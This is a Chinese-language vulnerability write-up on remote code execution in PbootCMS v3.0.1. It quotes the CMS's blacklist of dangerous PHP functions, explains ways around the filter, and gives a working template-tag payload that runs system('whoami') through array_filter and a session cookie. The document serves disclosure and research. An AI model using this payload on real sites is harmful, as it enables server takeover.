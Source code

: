 PbootCMS v3.0.1 远程代码执行漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

PbootCMS v3.0.1

三、复现过程
------------

### 漏洞分析

依然是先查看`apps\home\controller\ParserController.php中的parserIfLabel`方法的两个if标签的过滤项

    if (preg_match_all('/([\w]+)([\/\*\<\>\%\w\s\\\\]+)?\(/i', $matches[1][$i], $matches2)) {
                        foreach ($matches2[1] as $value) {
                            if (function_exists($value) && ! in_array($value, $white_fun)) {
                                $danger = true;
                                break;
                            }
                        }
                    }
    if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)/i', $matches[1][$i]))

关于第一处的判断，我们依然可以使用在函数名和括号之间插入控制字符的方法来绕过该处校验，对于第二处，可以看到在黑名单中相较于上个分析版本（2.0.9）添加了getallheaders的黑名单判断，于是该处我们需要寻找新的方法来实现代码执行的目的，这让我想到了array\_filter函数

![1.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId25.png)

通过该函数我们可以实现执行php代码，例如array\_filter(\[\'whoami\'\],\'system\');

那么接下来我们需要思考如何绕过黑名单中对system的检测，在这里我们依然可以将system放到header头中，这里可以使用session\_id(session\_start())的方法来取到session的值，我们可以将session的值置为system，就可以成功的调用system函数来执行命令了，通过上面的思路写出利用payload使用的时候却发生了如下问题

![2.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId26.png)

该处的冒号被替换成了`@`符号，通过查看github更新记录可以发现如下代码段

![3.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId27.png)

该处使用了正则来替换我们输入的if标签，为了绕过该处正则的替换我们可以使用反斜杠来进行绕过，例如{pboot:if}{/pboot:if}，该处的反斜杠会被写入数据库，而在程序调用该段数据并渲染到前台的模板时会调用到stripcslashes函数，进而删除反斜杠，代码位于core\\function\\handle.php中，如图

![4.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId28.png)

### 漏洞复现

通过上面的分析，我们易得如下payload

    {pboot\:if(var_dump<0x01>(array_filter<0x01>(['whoami'],session_id<0x01>(session_start<0x01>()))))}bbbbb{/pboot\:if}

来到后台站点信息处

![5.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId30.png)

插入上述poc并保存，然后来到前台首页，访问前台首页抓取数据包，将cookie中session的配置项改为system,如图

![6.png](./resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId31.png)

可以看到成功执行了`system("whoami");`

参考链接
--------

> https://xz.aliyun.com/t/8321
